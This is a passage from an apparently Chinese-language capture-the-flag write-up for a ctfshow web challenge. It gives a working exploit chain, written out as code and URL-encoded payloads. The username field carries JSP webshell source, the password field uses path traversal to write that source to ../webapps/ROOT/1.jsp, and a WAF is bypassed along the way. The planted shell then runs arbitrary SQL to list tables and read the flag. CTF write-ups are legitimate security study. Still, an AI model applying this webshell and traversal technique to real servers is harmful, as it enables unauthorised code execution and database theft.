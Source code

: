 > <%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
> <%@ page isELIgnored="false" %>
> <sql:setDataSource var="test" driver="${param.driver}"
>         url="${param.url}" user="root" password="root" />
>    <sql:query dataSource="${test}" var="result">
>         ${param.sql}
>     </sql:query>
> 
> <table border="1" width="100%">
>         <tr>
>             <th>ctfshow</th>
>         </tr>
>         <c:forEach var="row" items="${result.rows}">
>             <tr>
>                 <td><c:out value="${row.t}" /></td>
>             </tr>
>         </c:forEach>
>     </table>
> ```
>
> 被过滤的关键字，一律使用get参数注入，绕过waf，payload如下：
>
> ```Java
> username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
> ```
>
> 成功生成1.jsp作为小马
>
> 第三步，使用小马，查询数据库所有表的名字
>
> ```Java
> http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";
> ```
>
> 执行后，显示到所有表名
>
> ![img](https://ctf-show.feishu.cn/space/api/box/stream/download/asynccode/?code=ZDk3MTQ2ZjZjYmUxNGI3NGU4MjRlMzRiYzEzZDM3MDNfSXltTnBkbXRVZDFGM3FTMmZZdlBlcG5Td1FQRDZNVHNfVG9rZW46Ym94Y25EeDdaY0Nla0NobWlWRHh3ZXpiRktzXzE2NTk4MDAwNTE6MTY1OTgwMzY1MV9WNA)
>
> 第四步，读取flag值
>
> ```Java
> http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;
> ```
